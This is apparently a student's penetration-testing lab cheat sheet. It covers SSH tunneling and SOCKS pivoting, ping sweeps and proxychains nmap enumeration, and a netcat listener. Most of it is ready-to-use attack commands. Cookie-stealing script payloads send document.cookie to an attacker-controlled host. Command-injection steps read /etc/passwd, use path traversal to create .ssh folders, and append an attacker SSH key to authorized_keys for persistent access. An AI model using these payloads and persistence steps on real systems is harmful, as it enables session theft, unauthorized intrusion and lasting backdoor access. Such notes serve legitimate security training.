 # Tunnels
ssh student@10.50.39.150 -L 10300:192.168.28.120:4242
ssh student@localhost -p 10300 -D 9050
# Exploiting Vulnerabilities
```shell
#python to find ips that are online
for i in {1..254}; do (ping -c 1 192.168.150.$i | grep "bytes from" &); done | awk '{print $4}' | cut -d: -f1 > ips2.txt
#now create local file of ips(copy/paste)
proxychains nmap -iL ips.txt
#use to scan the ips you grabbed
proxychains nmap -iL ips.txt
#copy over ips file to your ops station ot proxy chains it
proxychains nmap 192.168.28.96/27 -Pn --script banner.nse
#begin your different nmap scans for further emueration
nmap -p 445 --script smb-os-discovery 192.168.28.5
nmap 10.50.42.159 -Pn -p 80 --script http-enum.nse
nmap 10.50.42.159 -Pn -p 80 --script http-robots.txt.nse
#net cat
nc -lvknp #this will allows connections to connectio
ssh student@10.50.39.150 -L 10300:192.168.28.120:4242
ssh student@localhost -p 10300 -D 9050
#location of all nmap scripts
/usr/share/namp/scripts$ : nmap 
#pull out all directories in browser 
#interact with buttons
#Javascript to steal cookie
<script>document.location="http://OP-Station-IP:OPS-PORT/?username=" + document.cookie;</script>
<script>window.location.href="http://website/?"+document.cookie;</script>
<script>write.location.href="http://10.50.20.97"</script>
#put file into server, adds it. Now that code is ran on browser
```
# Server Side injections
```shell
#enumerate the server, view directories
ls ; pwd 
whoami
#see whats in the home directory to see users
ls -shla ../../../../../../home
#make .ssh directoires in the users folders
mkdir ../../../../../../home/billybob/.ssh
ls the "www.html" directory
cat /etc/passwd | grep www-data
mkdir /var/www/.ssh
ls -latr & netstat -rn
|| ifconfig
mkdir /var/www/.ssh # make ssh directory in the ww-datas user folder
ssh-keygen #this will ask o generate file. LEAVE DEFAULT
cd .ssh
cat id_rsa.pub # everything in this file is your ssh key
#use ssh keys from machine to authenticate
echo "RSA key" >> /var/www/.ssh/authorized_keys
echo "ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDveZOWeA/wkiIal9Itl+4CV85j8lG5afCf6mCQ1NaXknhhoWjtQD1fTC2jXhTgkl5nh+54G1OzxEpuWe8a7mijkeiUWqQgIBqOvlv0Akx8Z7LUWP5cm1qx5v6DktGn2KmDucdAA+aEZk6oF6q5btPF14C2ShLDdOJT9R2V9HUciEKb9aLyZ28niIja8YWeEPl/UQWTHRijg2usXV693WwZRfvXWRWmEGz1wusNISntG+5Pk3WFg6SIeikQuVwgppjxftil2zHxlWyyZUdPC7pN1R8leXhF7Vrpw2C5xRcRxf0AFO/1JjLu9jfVaK+1+Jm6LHkuN/K0zT0qmpuT0KBr" >> ../../../../../../home/billybob/.ssh/authorized_keys
 #now you can ssh in as www-data
 ssh www-data@<ip>
 ```

echo "ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDveZOWeA/wkiIal9Itl+4CV85j8lG5afCf6mCQ1NaXknhhoWjtQD1fTC2jXhTgkl5nh+54G1OzxEpuWe8a7mijkeiUWqQgIBqOvlv0Akx8Z7LUWP5cm1qx5v6DktGn2KmDucdAA+aEZk6oF6q5btPF14C2ShLDdOJT9R2V9HUciEKb9aLyZ28niIja8YWeEPl/UQWTHRijg2usXV693WwZRfvXWRWmEGz1wusNISntG+5Pk3WFg6SIeikQuVwgppjxftil2zHxlWyyZUdPC7pN1R8leXhF7Vrpw2C5xRcRxf0AFO/1JjLu9jfVaK+1+Jm6LHkuN/K0zT0qmpuT0KBr" >> ../../../../../../home/billybob/.ssh/authorized_keys